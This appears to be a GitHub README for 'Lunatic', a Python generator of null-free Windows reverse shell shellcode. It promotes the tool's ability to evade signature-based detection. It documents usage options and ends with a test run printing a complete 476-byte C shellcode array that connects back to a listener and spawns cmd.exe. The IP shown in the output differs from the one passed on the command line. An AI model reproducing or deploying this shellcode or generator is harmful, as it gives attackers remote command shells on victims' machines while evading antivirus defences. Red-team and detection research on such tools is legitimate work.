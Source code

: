 # Lunatic
Lunatic is a Python script that dynamically generates PIC Null-Free reverse shell shellcode. It is light, convenient, and fast. Generated shellcode can be `27 bytes` smaller than MSF's shellcode (Do not contain `0x00`) at most, depending on supplied shellcode options. Generated shellcode can also be used to evade signature-based detection, considering MSF's shellcode is used widely.


## Background

## How to Use
### Install Keystone Engine


### Script Usage
The user can supply the IP address, listening port, variable name, shellcode format(C/CSharp/python/powershell), shell type(powershell/cmd), and whether to execute generated shellcode(True/False).

To make the shellcode work well, only the `IP address` must be specified. The default port value is `443`, the default variable name is `buf`, the default language is `python`, the default shell type is `cmd.exe`, and generated shellcode is `Not Executed` by default.

### Simple Shellcode Runner



## Known Issues
1. According to the supplied IP address, port, and shell type, Lunatic dynamically generates Null-Free shellcode. I have considered most of the common situations that could generate Null bytes, however, I am aware that if the supplied IP address contains `.255` and `.0` at the same time, for instance, if the IP address is `192.168.0.255`, generated shellcode will contain Null byte. This type of IP address could be rare in practice, and eliminating Null byte for all IP addresses would add more complexity. Therefore, I do not intend to improve this part recently.

2. Regarding the port value, in theory, any port will not generate Null byte. However, due to the implementation of eliminating Null-byte, port `65280` is not usable.

## Future Plan


## Test Case

```cmd
python Lunatic.py --ip 192.168.0.45 --port 443 --variable buffer --shell cmd --language c --execution false


██╗░░░░░██╗░░░██╗███╗░░██╗░█████╗░████████╗██╗░█████╗░
██║░░░░░██║░░░██║████╗░██║██╔══██╗╚══██╔══╝██║██╔══██╗
██║░░░░░██║░░░██║██╔██╗██║███████║░░░██║░░░██║██║░░╚═╝
██║░░░░░██║░░░██║██║╚████║██╔══██║░░░██║░░░██║██║░░██╗
███████╗╚██████╔╝██║░╚███║██║░░██║░░░██║░░░██║╚█████╔╝
╚══════╝░╚═════╝░╚═╝░░╚══╝╚═╝░░╚═╝░░░╚═╝░░░╚═╝░╚════╝░

Author: Senzee
Github Repository: https://github.com/senzee1984/Lunatic
Description: Dynamically generate PIC Null-Free Reverse Shell Shellcode
Attention: In rare cases (.255 and .0 co-exist), generated shellcode could contain NULL bytes, E.G. when IP is 192.168.0.255


[+]Shellcode Settings:
******** IP Address: 192.168.1.45
******** Listening Port: 443
******** Language of desired shellcode runner: c
******** Shellcode array variable name: buffer
******** Shell: cmd
******** Shellcode Execution: false


[+]Payload size: 476 bytes

[+]Shellcode format for C

unsigned char buffer[]={
0x48,0x31,0xd2,0x65,0x48,0x8b,0x42,0x60,0x48,0x8b,0x70,0x18,0x48,0x8b,0x76,0x20,0x4c,0x8b,0x0e,0x4d,
0x8b,0x09,0x4d,0x8b,0x49,0x20,0xeb,0x63,0x41,0x8b,0x49,0x3c,0x4d,0x31,0xff,0x41,0xb7,0x88,0x4d,0x01,
0xcf,0x49,0x01,0xcf,0x45,0x8b,0x3f,0x4d,0x01,0xcf,0x41,0x8b,0x4f,0x18,0x45,0x8b,0x77,0x20,0x4d,0x01,
0xce,0xe3,0x3f,0xff,0xc9,0x48,0x31,0xf6,0x41,0x8b,0x34,0x8e,0x4c,0x01,0xce,0x48,0x31,0xc0,0x48,0x31,
0xd2,0xfc,0xac,0x84,0xc0,0x74,0x07,0xc1,0xca,0x0d,0x01,0xc2,0xeb,0xf4,0x44,0x39,0xc2,0x75,0xda,0x45,
0x8b,0x57,0x24,0x4d,0x01,0xca,0x41,0x0f,0xb7,0x0c,0x4a,0x45,0x8b,0x5f,0x1c,0x4d,0x01,0xcb,0x41,0x8b,
0x04,0x8b,0x4c,0x01,0xc8,0xc3,0xc3,0x4c,0x89,0xcd,0x41,0xb8,0x8e,0x4e,0x0e,0xec,0xe8,0x8f,0xff,0xff,
0xff,0x49,0x89,0xc4,0x48,0x31,0xc0,0x66,0xb8,0x6c,0x6c,0x50,0x48,0xb8,0x57,0x53,0x32,0x5f,0x33,0x32,
0x2e,0x64,0x50,0x48,0x89,0xe1,0x48,0x83,0xec,0x20,0x4c,0x89,0xe0,0xff,0xd0,0x48,0x83,0xc4,0x20,0x49,
0x89,0xc6,0x49,0x89,0xc1,0x41,0xb8,0xcb,0xed,0xfc,0x3b,0x4c,0x89,0xcb,0xe8,0x55,0xff,0xff,0xff,0x48,
0x31,0xc9,0x66,0xb9,0x98,0x01,0x48,0x29,0xcc,0x48,0x8d,0x14,0x24,0x66,0xb9,0x02,0x02,0x48,0x83,0xec,
0x30,0xff,0xd0,0x48,0x83,0xc4,0x30,0x49,0x89,0xd9,0x41,0xb8,0xd9,0x09,0xf5,0xad,0xe8,0x2b,0xff,0xff,
0xff,0x48,0x83,0xec,0x30,0x48,0x31,0xc9,0xb1,0x02,0x48,0x31,0xd2,0xb2,0x01,0x4d,0x31,0xc0,0x41,0xb0,
0x06,0x4d,0x31,0xc9,0x4c,0x89,0x4c,0x24,0x20,0x4c,0x89,0x4c,0x24,0x28,0xff,0xd0,0x49,0x89,0xc4,0x48,
0x83,0xc4,0x30,0x49,0x89,0xd9,0x41,0xb8,0x0c,0xba,0x2d,0xb3,0xe8,0xf3,0xfe,0xff,0xff,0x48,0x83,0xec,
0x20,0x4c,0x89,0xe1,0x48,0x31,0xd2,0xb2,0x02,0x48,0x89,0x14,0x24,0x48,0x31,0xd2,0x66,0xba,0x01,0xbb,
0x48,0x89,0x54,0x24,0x02,0xba,0xc0,0xa8,0x01,0x2d,0x48,0x89,0x54,0x24,0x04,0x48,0x8d,0x14,0x24,0x4d,
0x31,0xc0,0x41,0xb0,0x16,0x4d,0x31,0xc9,0x48,0x83,0xec,0x38,0x4c,0x89,0x4c,0x24,0x20,0x4c,0x89,0x4c,
0x24,0x28,0x4c,0x89,0x4c,0x24,0x30,0xff,0xd0,0x48,0x83,0xc4,0x38,0x49,0x89,0xe9,0x41,0xb8,0x72,0xfe,
0xb3,0x16,0xe8,0x99,0xfe,0xff,0xff,0x48,0xba,0x9c,0x92,0x9b,0xd1,0x9a,0x87,0x9a,0xff,0x48,0xf7,0xd2,
0x52,0x48,0x89,0xe2,0x41,0x54,0x41,0x54,0x41,0x54,0x48,0x31,0xc9,0x66,0x51,0x51,0x51,0xb1,0xff,0x66,
0xff,0xc1,0x66,0x51,0x48,0x31,0xc9,0x66,0x51,0x66,0x51,0x51,0x51,0x51,0x51,0x51,0x51,0xb1,0x68,0x51,
0x48,0x89,0xe7,0x48,0x89,0xe1,0x48,0x83,0xe9,0x20,0x51,0x57,0x48,0x31,0xc9,0x51,0x51,0x51,0x48,0xff,
0xc1,0x51,0xfe,0xc9,0x51,0x51,0x51,0x51,0x49,0x89,0xc8,0x49,0x89,0xc9,0xff,0xd0};
```
